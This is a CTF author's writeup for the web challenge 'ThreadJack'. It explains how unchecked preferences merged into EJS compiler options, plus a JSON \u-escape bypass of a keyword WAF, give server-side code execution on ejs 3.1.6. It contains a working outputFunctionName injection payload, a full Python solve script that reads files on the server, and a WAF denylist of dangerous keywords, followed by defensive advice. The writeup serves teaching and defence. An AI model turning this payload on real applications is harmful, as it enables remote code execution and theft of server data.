

> **ThreadJack** was created by me for **UTAR CyberHunt 2026** (the UTAR-FICT 3rd Intervarsity CTF, 18 July 2026), Web category, Hard. This is the intended solution, plus a good chunk of background on *why* each step works. Its sibling challenge, **PublicNotes**, has [its own writeup](/posts/utar-cyberhunt-2026-publicnotes/).
{: .prompt-info }

Hello again! This is the first of two writeups for the Web challenges I wrote for UTAR CyberHunt 2026. ThreadJack is a Node.js server-side RCE hiding behind a "we blocked all the scary words" WAF. The flag —

```
cyber26{h0w_t0_dr1p_w1th_pr0t0typ3_p0llut10n_and_3js}
```

— gives away the shape of it: something *prototype-pollution-ish*, and EJS. But the interesting part of this challenge (to me, as the author) is that the obvious reading of the flag is a little bit of a misdirection. Let's build it up.

## Challenge Description

> Name: ThreadJack
>
> Category: Web
>
> Difficulty: Hard
>
> Welcome to HypeWear — the freshest streetwear drop platform on the block. Customize your look, browse the latest fits, and make it yours. But be careful... sometimes the thread you pull unravels the whole outfit.

## 1. Looking around

HypeWear is a small streetwear store — products, a cart, a wishlist. Nothing exciting until you hit **My Account**, where you can set display preferences.


The preferences panel lets you choose a theme and two banner colours, and it prints your current config back to you as JSON:


Saving fires a request:

```text
POST /api/preferences
Content-Type: application/json

{ "prefs": { "theme": "light", "layout": { "bannerColor": "#000000", "textColor": "#ffffff" } } }
```

Two details should make your ears prick up:

1. It's a **nested object**, not flat form fields. Someone is going to *merge* this into server-side state.
2. The response echoes the **whole merged prefs object** back — so we get a live view of what the merge produced.

Whenever a web app takes a nested JSON object from the client and merges it into something it keeps, that's a spot worth staring at. Merges are where "just my settings" quietly becomes "any key I want on that object."

## 2. Where your prefs actually go

Pull the source (it's the `dist/` folder) and read `server.js` from the top. The very first thing that stands out is a **custom view engine**:

```javascript
app.engine('ejs', (filePath, options, callback) => {
    const renderOpts = Object.assign({ filename: filePath }, options._themeConfig || {});
    ejs.renderFile(filePath, options, renderOpts, callback);
});
```
{: file="server.js" }

`ejs.renderFile(path, data, options, callback)` — the third argument is EJS's **options** object (compiler settings, not template data). Here that object is built by taking `{ filename }` and `Object.assign`-ing `options._themeConfig` on top of it. So whatever ends up in `_themeConfig` becomes EJS compiler options.

Where does `_themeConfig` come from? A few lines down:

```javascript
app.use((req, res, next) => {
    res.locals.prefs = req.session.prefs;
    res.locals._themeConfig = req.session.prefs;   // <-- right here
    ...
});
```
{: file="server.js" }

`res.locals._themeConfig` **is** `req.session.prefs` — the same object we can influence through `/api/preferences`. Express merges `res.locals` into the render data, so `options._themeConfig` inside the engine is our session prefs. Every key we can land on `req.session.prefs` becomes an EJS compiler option on every single page render.

Now the merge:

```javascript
function deepMerge(target, source) {
    for (let key in source) {
        if (key === '__proto__' || key === 'constructor' || key === 'prototype') continue;
        if (typeof source[key] === 'object' && source[key] !== null && !Array.isArray(source[key])) {
            if ((typeof target[key] !== 'object' && typeof target[key] !== 'function') || target[key] === null) {
                target[key] = {};
            }
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

app.post('/api/preferences', (req, res) => {
    const { prefs } = req.body;
    if (prefs && typeof prefs === 'object') {
        deepMerge(req.session.prefs, prefs);
        return res.json({ success: true, prefs: req.session.prefs });
    }
    res.status(400).json({ error: 'Invalid preferences format' });
});
```
{: file="server.js" }

### A short detour: "prototype pollution" vs what's actually happening here

The flag says *prototype pollution*, and this code has all the props for it: an unbounded recursive merge of attacker JSON into a server object. Classic prototype pollution works like this — in JavaScript every object has a hidden link to a **prototype** object (`Object.prototype` for plain objects), and property lookups walk that chain. If you can get a merge to write to the key `__proto__` (or `constructor.prototype`), you're not adding a property to *one* object — you're adding it to `Object.prototype`, and now **every** object in the process appears to have that property. Libraries that read config with `opts.someOption` (a plain property access, which follows the prototype chain) will suddenly see your polluted value.

That's the intended-looking path: pollute `Object.prototype.outputFunctionName`, and EJS picks it up on the next render.

But look at the guard: `deepMerge` skips the keys `__proto__`, `constructor`, and `prototype` at *every* level of recursion. That check actually holds here — there's no plain-object route through this specific function to `Object.prototype`. (In general a denylist like that is **not** enough — merges have been bypassed with array indices, `constructor` reached through other means, and so on — but for this code, on this version of Node, it does its job.)

So real prototype pollution is off the table. The bug is simpler and, honestly, more common in real code: `req.session.prefs` — a per-user settings blob you can add arbitrary keys to — is handed **straight to a library as its configuration** via `Object.assign({ filename }, options._themeConfig)`. You don't need to poison the prototype chain when the target object is being spread into the options directly. Call it object injection, mass assignment, "merge into config" — whatever the name, the fix is the same and we'll get to it.



## 3. The "no scary words" WAF

Before Express even parses the JSON, there's a body filter on the raw bytes:

```javascript
app.use(express.json({
    verify: (req, res, buf) => {
        const bodyStr = buf.toString().toLowerCase();
        const blacklist = ['__proto__', 'constructor', 'prototype', 'exec', 'spawn', 'outputfunctionname'];
        for (let word of blacklist) {
            if (bodyStr.includes(word)) {
                throw new Error(`WAF: Security Violation - Malicious keyword detected: ${word}`);
            }
        }
    }
}));
```
{: file="server.js" }

`express.json({ verify })` gets the **raw request buffer** before parsing. This one lowercases it and rejects the request if the bytes contain any blacklisted substring.

Here's the thing about filtering the wire format instead of the parsed value: **the parser and the filter disagree about what the input says.** This is a *parser differential*, and it's behind a huge number of WAF bypasses. JSON strings support `\uXXXX` escapes, so I can write the key with every letter escaped:

```text
"\u006f\u0075\u0074\u0070\u0075\u0074\u0046\u0075\u006e\u0063\u0074\u0069\u006f\u006e\u004e\u0061\u006d\u0065"
```

The filter lowercases the raw body and searches for the literal substring `outputfunctionname` — it isn't in there. But `JSON.parse` decodes those escapes and produces the key `outputFunctionName`. The filter sees one string, the application sees another. (The solve script builds this escape automatically.)

The same trick covers any blacklisted word I might need in a *value* later (I won't, as it turns out, but it's good to know the whole denylist is toothless).

## 4. From "merge" to RCE — how template engines get you owned

We can put arbitrary keys on the EJS options object. Which option turns that into code execution?

To understand why, you need to know **how a template engine actually renders**. EJS doesn't interpret your template line by line at render time. It *compiles* it: it walks the template once and builds the **source code of a JavaScript function** as a big string, then turns that string into a real function (via `new Function` / `eval`). Roughly, `Hello <%= name %>!` becomes something like:

```javascript
function anonymous(locals, escapeFn, include, rethrow) {
  let __output = "";
  __output += "Hello ";
  __output += escapeFn(name);
  __output += "!";
  return __output;
}
```

Rendering is then just *calling that function* with your data. Fast — but it means **anything that controls a piece of that generated source string controls code that will run.** Several EJS options do exactly that, because they were designed for legitimate customisation:

| Option | What it injects into the generated source |
| --- | --- |
| `outputFunctionName` | the name used for an output-appending helper — dropped in raw as an identifier |
| `escapeFunction` / `escape` | the escaper — its source is inlined |
| `localsName`, `destructuredLocals` | the parameter list / destructuring pattern of the function |
| `client` + `compileDebug` | changes the wrapper enough to smuggle code in older versions |

`outputFunctionName` is the cleanest. EJS takes it and writes `var <outputFunctionName> = ...` into the source **without checking that it's a valid identifier** — until version **3.1.7**, which added a `/^[a-zA-Z_$][0-9a-zA-Z_$]*$/` check specifically to kill this. This challenge pins **`ejs@3.1.6`** in `package.json`, so the check isn't there.

Set it to:

```
x; <any javascript> ; //
```

and the generated source becomes `var x; <any javascript> ; // = function ...` — your JavaScript runs the moment the template compiles, which is the next render after your `POST`.

### The `require is not defined` gotcha

My first payload tried the obvious:

```javascript
x;const fs=require('fs');throw new Error('FLAG=>'+fs.readFileSync(...));//
```

and it blew up with **`require is not defined`**. That surprised me for a second, then made sense: `require` isn't a global. It's a per-module function that Node injects into each file's scope when it loads it. The EJS-generated function is created with `eval` / `new Function`, so it runs in a scope that has **no `require`** — but it *does* have the real globals, including `process`.

From `process` you can get back to a working `require`:

- `process.mainModule.require(...)` — `mainModule` is the entry file's module object (set when you launch `node server.js`), and every module object has a `.require`.
- `process.binding('...')` — lower-level, and deprecated, but present.
- in other sandboxes, `this.constructor.constructor('return process')()` — blocked here, since `constructor` is in the WAF.

`process.mainModule.require('fs')` it is. And I don't even need `child_process` — reading a file is enough, which is handy because `exec` and `spawn` are both on the denylist. The flag lives at `/flag_<random>.txt` (see the Dockerfile), so I list `/` and grab whatever starts with `flag`.

### Getting the output back

The payload runs, but how do I *see* the result? The app's error handler does it for me:

```javascript
app.use((err, req, res, next) => {
    if (err.message && err.message.startsWith('WAF')) return res.status(403).json({ error: err.message });
    res.status(500).send(`<pre>Internal Server Error:\n${err.stack || err.message || err}</pre>`);
});
```
{: file="server.js" }

Any error that isn't a WAF error gets its **full stack trace** rendered into the 500 page. So I just `throw new Error('FLAG => ' + <file contents>)` and read it off the response.

## 5. Putting it together

```python
#!/usr/bin/env python3
import json, re, requests, sys

TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
s = requests.Session()
s.get(f"{TARGET}/profile")            # establish a session

# Runs inside the compiled EJS template (eval scope): no `require`, but `process` is global.
fsr = "process.mainModule.require('fs')"
payload = (f"x;throw new Error('FLAG => '+{fsr}.readFileSync('/'+"
           f"{fsr}.readdirSync('/').find(f=>f.startsWith('flag'))));//")

# \u-escape the one blacklisted key; JSON.parse turns it back into `outputFunctionName`,
# deepMerge copies it onto req.session.prefs, and the engine spreads prefs into EJS options.
key = "".join(f"\\u{ord(c):04x}" for c in "outputFunctionName")
raw = '{"prefs":{"' + key + '":' + json.dumps(payload) + '}}'
assert not any(w in raw.lower() for w in
               ["__proto__", "constructor", "prototype", "exec", "spawn", "outputfunctionname"])

print(s.post(f"{TARGET}/api/preferences", data=raw,
             headers={"Content-Type": "application/json"}).status_code)   # 200
html = s.get(f"{TARGET}/").text                                           # 500 — payload fires
print(re.search(r"cyber26\{[^}]+\}", html).group(0))
```

The `outputFunctionName` string sits harmlessly on your session prefs until the next render, then executes:


→ **Flag** → `cyber26{h0w_t0_dr1p_w1th_pr0t0typ3_p0llut10n_and_3js}`

## What to take away

**For attackers:** when you see a nested-object merge, the win isn't always `__proto__`. Ask *where does this object go next?* If it's later passed to a library — as options, as a config, as a query — every key you can add is a key that library will honour. And when a WAF filters raw request bytes, reach for a parser trick (`\uXXXX` in JSON, alternate encodings, casing, duplicate keys) before you give up.

**For defenders**, in rough order of how much they help:

1. **Never merge request data into a config object.** Keep user preferences and library options in separate objects that never touch.
2. **Allowlist, don't denylist.** Instead of `deepMerge`, pull exactly the keys you expect: `prefs.theme`, `prefs.layout.bannerColor`, `prefs.layout.textColor`, validated to known values. A denylist of `__proto__`/`constructor`/`prototype` misses the *real* dangerous keys (`outputFunctionName`, and the next one you didn't think of).
3. **Use a schema validator** (zod, joi, ajv) on the request body so anything unexpected is rejected before it reaches your logic.
4. `Object.create(null)` or a `Map` for the settings store, so there's no prototype to pollute and no inherited keys to confuse a lookup.
5. Keep dependencies current — `ejs@3.1.7+` would have stopped the `outputFunctionName` half of this cold. Run `npm audit` / Dependabot.
6. Don't render stack traces to users in production.

The whole challenge really is that one `Object.assign` line. Everything else — the WAF, the "safe" merge guard, the misleading flag — is there to make the front door look bolted while the side window is open.

The other UTAR challenge, **PublicNotes**, is a GraphQL take on the same theme from the other side: [read it here](/posts/utar-cyberhunt-2026-publicnotes/). Till the next one, ciao!
